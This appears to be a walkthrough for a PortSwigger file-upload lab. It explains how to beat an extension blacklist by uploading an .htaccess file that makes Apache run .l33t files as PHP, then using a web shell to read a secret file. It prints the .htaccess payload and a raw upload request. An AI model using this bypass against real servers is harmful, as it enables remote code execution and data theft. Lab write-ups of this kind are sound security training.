 Lab URL: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

**Objective**

Bypass the file extension restriction to upload a PHP web shell, and use it to exfiltrate the content of the `/home/carlos/secret` file.

**Credentials**
```
wiener:peter
```

**Solution**

In this lab, we have the same functionality of uploading avatar images but when we try to upload `php` files they give us the following error message.

```
Sorry, php files are not allowed
```

Any file extension that is PHP executable gives us the same error message which means we cannot upload any variation of php files but they accept other file types that are non-executable like text, image, document, and zip files.

Knowing this we can try to upload one interesting file that depends on the web server in place. In this lab the web server in place is Apache and in this web server, we can change the behavior by creating a special `.htacess` file.

Create a `.htaccess` file in your system that has the following content in it.

```
AddType application/x-httpd-php .l33t
```

This will make a policy in which every file that has the extension `.l33t` treat as a PHP file. That means we can upload a PHP web shell that has the extension `.l33t` instead of `.php` and the server executes it like the normal `.php` file. This will bypass the restriction of blocking any file upload with `.php` files.

Upload the `.htacess` file and then upload the web shell that has the php shell code but save it with the name `exploit.l33t` after that just executes the system command as we did in the previous lab to exfiltrate `/home/carlos/secret` file.

**Uploading `.htaccess` file**
```
POST /my-account/avatar HTTP/1.1
Host: 0a5900660399847f816b34d8000200d4.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLNNEgGwgeAoT5Wps
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=AEVMLNrxJBRC31ZIanklP6inQoGw4Lj8
Content-Length: 457

------WebKitFormBoundaryLNNEgGwgeAoT5Wps
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

------WebKitFormBoundaryLNNEgGwgeAoT5Wps
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryLNNEgGwgeAoT5Wps
Content-Disposition: form-data; name="csrf"

7GWn4gmff7V1guJCeMnpDsdI9DIcGR5T
------WebKitFormBoundaryLNNEgGwgeAoT5Wps--

```
